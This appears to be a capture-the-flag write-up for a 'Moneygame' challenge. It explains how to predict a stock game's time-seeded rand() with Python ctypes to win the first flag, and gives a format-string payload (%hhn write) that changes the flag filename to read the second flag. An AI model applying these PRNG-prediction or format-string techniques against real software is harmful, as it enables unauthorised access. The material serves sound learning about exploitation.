

# Moneygame 1/2

## Recon

We are presented with a stock market game. We have to time the market just right in order to get 10x our initial cash pile. Psh.. easy peasy

Taking a look at the binary, we see that the numbers are generated from an `srand(time(0))`. This is great for us, since we can create the same random number sequence on our end, thus negating the "random" factor of the stocks.



## Quick aside

There is a print function that clears the screen in the binary. This was annoying to debug. Patching over it is a breeze with [binjitsu](http://www.github.com/binjitsu/binjitsu)

```python
from pwn import *

elf = ELF('moneygame')
# NOP out annoying print that clears screen
elf.asm(0x80487b3, 'nop')
elf.asm(0x80487b4, 'nop')
elf.asm(0x80487b5, 'nop')
elf.asm(0x80487b6, 'nop')
elf.asm(0x80487b7, 'nop')

elf.save('moneygame-patched')
```

Now, `moneygame-patched` can use used locally without the annoying screen clear. Now to the actual write-up

## Flag 1

With the help of Python's ctypes, generating these random numbers on our end is trivial:

```python
from ctypes import CDLL
libc = CDLL('libc-2.19.so')

# Seed srand with time(0)
now = int(floor(time.time()))
libc.srand(now)

random_num = libc.rand()
```

From here, we replicate the same function that creates the stocks from the binary in Python:

```python
def set_stocks():
    '''Create stocks based on current srand'''
    for index in xrange(1, 4):
        stocks[index].append(10000)

    for _ in xrange(54):
        for index in xrange(1, 4):
            curr_stock = stocks[index][-1]

            # Use of libc's rand in Python
            curr_stock += libc.rand() % 2001 - 1000
            if curr_stock <= 4999:
                curr_stock = 5000
            if curr_stock > 15000:
                curr_stock = 15000

            stocks[index].append(curr_stock)
```

Now that we have our three stock listings, we have to determine the optimal buy/sell path to success.

The quick and dirty method I used is described below:
* Calculate the peaks and valleys of each stock listings
* Calculate the largest profit margins for each stock using the peaks and valleys
* Sort all profit margins together
* Attempt to fill the 54 weeks based on the profit margins

An example of the last step of this simple algorithm is below:

The top three profit margins:
```
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
[1, 5, 50,  '2'] Stock 2 from week 1 to 5 yields 100
```

Starting with the most profitable, fill in our available actions:
```
[4, 6, 100, '1'] Stock 1 from week 4 to 6 yields 100
Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', '', '', '']
```

Second most profitable:
```
[7, 9, 80,  '3'] Stock 3 from week 7 to 9 yields 80
Actions: ['', '', '', '', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
```

Our third most profitable overlaps and existing range i.e. the [4, 6, 100, '1']. In this case, fill as much as we can before the start of the existing range.
Note: This is not optimal. Bigger improvements can be made, but are not necessary.
```
[1, 5, 50, '2']
# Note: 1 - 5 overlaps into existing 4 - 6, Try to go as far as we can before selling.
Actions: ['', 'Buy stock2', 'Rest', 'Sell stock2', 'Buy stock1', 'Rest', 'Sell stock1', 'Buy stock3', 'Rest', 'Sell stock3']
```

Now that we have our optimal actions, we simulate these actions in order to determine if the actions result in a bank of $100k. We don't want to waste time with the server, if we know ahead of time that we can lose.

Once we determine that we can win, we simply throw our results at the server and retrieve the first flag.

## Flag 2

There is a string format vulnerability in the name field of the high score after winning the game. After winning the game, the binary grabs the filename of the flag `flag1`, reads the contents of the file, and returns the contents to the user. We are given that the second flag is named `flag2`, so we can use the string format to simply change the filename from `flag1` to `flag2`. 

```
# Located at offset 7 on the stack
# 0x804a2b4 = 'flag1'
# 0x804a2b8 = '1'
# '2' == 50
# Padding necessary -> 50 - 4 bytes of address = 46
shellcode = p32(0x804a2b8) + '%46c%7$hhn'
```
